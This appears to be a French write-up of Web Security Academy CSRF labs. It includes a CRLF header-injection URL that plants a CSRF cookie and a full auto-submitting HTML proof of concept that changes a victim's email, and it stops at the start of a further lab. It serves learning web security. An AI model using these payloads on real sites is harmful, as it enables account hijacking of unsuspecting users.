 Il est important de bien intercepter la requête sur le premier compte et de ne pas la laisser passer, le token est à usage unique.

Simplement transférer la requête interceptée dans le Repeater avant de la jeter fonctionne aussi.


### CSRF where token is tied to non-session cookie

#### Première étape

Remarquer la ligne suivante dans la requête de changement d'adresse : 

> Cookie: session=7RRxk0eFq3ztgrEn0FBYkIqx6q95MH1J; csrfKey=yQuUE7omVwdwWkKddJm6DDTwc0EF11ZG

En changeant juste le cookie on est redirigé vers /login
En changeant juste le token CSRF on a une erreur 400

Déduction : le token CSRF n'est pas forcément lié à la session.


#### Deuxième étape

Faire une recherche classique et l'envoyer dans le Repeater. On observe que la dernière recherche effectuée est reflétée dans le header "Set-Cookie". Puisque cette fonction de recherche n'a pas de protection CSRF, on peut l'exploiter pour injecter les cookies chez la victime.

Créer une URL de ce type : 

    /?search=test%0d%0aSet-Cookie:%20csrfKey=yQuUE7omVwdwWkKddJm6DDTwc0EF11ZG%3b%20SameSite=None
    
Générer un PoC de CSRF mais remplacer le bouton d'envoi automatique par : 

    <img src="https://0ac8005403e86b048501054c008a003e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=yQuUE7omVwdwWkKddJm6DDTwc0EF11ZG%3b%20SameSite=None" onerror="document.forms[0].submit()">
    
PoC : 

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
        <form action="https://0ac8005403e86b048501054c008a003e.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="autre_adresse@gmail.com" />
          <input type="hidden" name="csrf" value="FzYi95dvSRZv9PW3diq37M3ZA9lwXvl7" />
          <input type="submit" value="Submit request" />
        </form>
       <img src="https://0ac8005403e86b048501054c008a003e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=yQuUE7omVwdwWkKddJm6DDTwc0EF11ZG%3b%20SameSite=None" onerror="document.forms[0].submit()">
      </body>
    </html>


### CSRF where token is duplicated in cookie

Remarquer les lignes suivantes dans la requête de changement d'adresse :

> Cookie: session=r90uevTVNmqpKMVErnFcvwDakiUvjWTd; csrf=reGqTzhVmVZio5ojlhw8JoTbF38rwaCN
> ...
> email=test%40gmail.com&csrf=reGqTzhVmVZio5ojlhw8JoTbF38rwaCN
